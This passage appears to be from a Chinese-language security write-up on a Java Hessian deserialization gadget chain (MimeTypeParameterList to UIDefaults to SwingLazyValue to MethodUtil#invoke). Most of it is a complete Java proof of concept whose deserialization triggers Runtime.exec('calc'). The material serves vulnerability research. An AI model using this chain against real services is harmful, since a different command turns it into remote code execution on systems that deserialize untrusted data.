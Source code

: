 `createValue`能够调用类的静态方法或对类进行实例化

（注意，这里用`Class.forName`加载类时，指定的类加载器是null，所以`SwingLazyValue`只能加载`rt.jar`下的类）

`sun.reflect.misc.MethodUtil`的`invoke`静态方法可以任意调用方法

因此我们得到一条新的链子

```xml
javax.activation.MimeTypeParameterList#toString
	UIDefaults#get
		UIDefaults#getFromHashTable
			UIDefaults$LazyValue#createValue
				SwingLazyValue#createValue
					sun.reflect.misc.MethodUtil#invoke
```

```java
import com.caucho.hessian.io.*;
import sun.swing.SwingLazyValue;
import javax.activation.MimeTypeParameterList;
import javax.swing.*;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class Test {
    public static void ser(Object evil) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);  //允许反序列化NonSerializable

        baos.write(77);
        output.writeObject(evil);
        output.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void main(String[] args) throws Exception {
        UIDefaults uiDefaults = new UIDefaults();
        Method invokeMethod = Class.forName("sun.reflect.misc.MethodUtil").getDeclaredMethod("invoke", Method.class, Object.class, Object[].class);
        Method exec = Class.forName("java.lang.Runtime").getDeclaredMethod("exec", String.class);

        SwingLazyValue slz = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invokeMethod, new Object(), new Object[]{exec, Runtime.getRuntime(), new Object[]{"calc"}}});

        uiDefaults.put("p4d0rn", slz);
        MimeTypeParameterList mimeTypeParameterList = new MimeTypeParameterList();

        setFieldValue(mimeTypeParameterList,"parameters",uiDefaults);
        ser(mimeTypeParameterList);
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
